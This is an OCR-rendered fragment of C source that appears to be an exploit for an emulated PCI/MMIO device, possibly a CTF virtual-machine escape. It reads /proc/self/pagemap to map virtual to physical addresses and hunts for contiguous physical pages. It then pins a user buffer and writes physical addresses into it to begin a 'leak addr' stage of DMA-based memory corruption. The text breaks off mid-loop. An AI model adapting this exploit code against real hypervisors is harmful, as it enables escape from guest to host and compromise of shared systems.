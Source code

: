 ````c
        for (int j = 0; j < n; j++)
        {
            if (buf[j] == fn + 1 || buf[j] + 1 == fn)
            {
                LOG("consist pages");
                HEX(arr);
                HEX(fn);
                HEX(arry[j]);
                HEX(buf[j]);
                if (fn > buf[j])
                {
                    buf0 = arry[j];
                    buf1 = arr;
                    phy_buf0 = (buf[j]<<12);
                }
                else
                {
                    buf1 = arry[j];
                    buf0 = arr;
                    phy_buf0 = (fn<<12);
                }
                return;
            }
        }
        buf[n] = fn;
        arry[n++] = arr;
    }
}

int main(){

    fd = open("/proc/self/pagemap",O_RDONLY);
    if(!fd){
        perror("open pagemap");
        return 0;
    }
    get_pages();

    printf("init mmio:\n");
    init_mmio();

    userbuf = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (userbuf == MAP_FAILED)
        Err("mmap userbuf");
    mlock(userbuf, 0x1000);
    phy_userbuf = va2pa(userbuf);
    printf("userbuf va: 0x%llx\n", userbuf);
    printf("userbuf pa: 0x%llx\n", phy_userbuf);

    memset(buf0, 'a', 0x1000);
    memset(buf1, 'a', 0x1000);
    printf("[++++] 0x%lx %p\n", buf0, buf0);
    printf("phy_buf0: 0x%lx\n", phy_buf0);

    printf("leak addr:\n");
    *(uint64_t*)(userbuf) = phy_userbuf;
    *(uint64_t*)(userbuf+0x8) = 0x1000;
    *(uint64_t*)(userbuf+0x10) = phy_buf0;
    *(uint64_t*)(userbuf+0xff8) = phy_buf0;
    set_write(0x1);
    sleep(1);
    for(int i=0; i<17; i++){
        *(uint64_t*)(userbuf+i*0x18) = phy_userbuf;
````